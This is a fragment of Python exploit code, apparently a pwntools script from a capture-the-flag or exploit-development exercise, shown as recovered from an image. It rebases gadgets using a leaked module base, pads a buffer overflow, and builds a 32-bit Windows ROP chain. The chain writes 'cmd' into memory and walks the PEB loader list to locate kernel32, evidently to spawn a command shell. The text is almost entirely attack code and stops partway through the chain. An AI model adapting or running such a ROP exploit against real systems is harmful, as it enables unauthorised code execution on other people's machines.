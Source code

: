 ```py

print(f"module base: {hex(module_base)}")

# c.sendline(b'A'*0x1005)
# c.interactive()

add_esp += module_base
pop_ecx += module_base
mov_fs0x60_ecx += module_base
mov_edx_fs0x60 += module_base
mov_fs_eax += module_base
add_ecx_eax += module_base
fs_read_deref_pop_ecx += module_base
deref_pop_ecx += module_base
push_push_call += module_base


payload = b"A"*(espadd_offset)

ropchain = b''

# real rop starts here

#init cmd string first


#add 2 half(lol)
ropchain += p32(pop_ecx)
ropchain += p32(0x30)
ropchain += p32(mov_fs_eax)

ropchain += p32(add_ecx_eax)
#write to fs
ropchain += p32(mov_fs0x60_ecx)
#read into rdx
ropchain += p32(mov_edx_fs0x60)
#now rdx holds cmdline(cmd)

#now we write the actual cmd inside
ropchain += p32(pop_ecx)

ropchain += b'cmd\x00'
ropchain += p32(mov_fs0x60_ecx)


#and finally we can start resolving k32 location

ropchain += p32(pop_ecx)
ropchain += p32(0x30)


#now eax = peb
ropchain += p32(fs_read_deref_pop_ecx)

#ropchain += p32(pop_ecx)
ropchain += p32(LDR_off)
ropchain += p32(add_ecx_eax)

ropchain += p32(deref_pop_ecx)
ropchain += p32(InitOrderModuleList_off + LdrTableOff)


ropchain += p32(add_ecx_eax)
```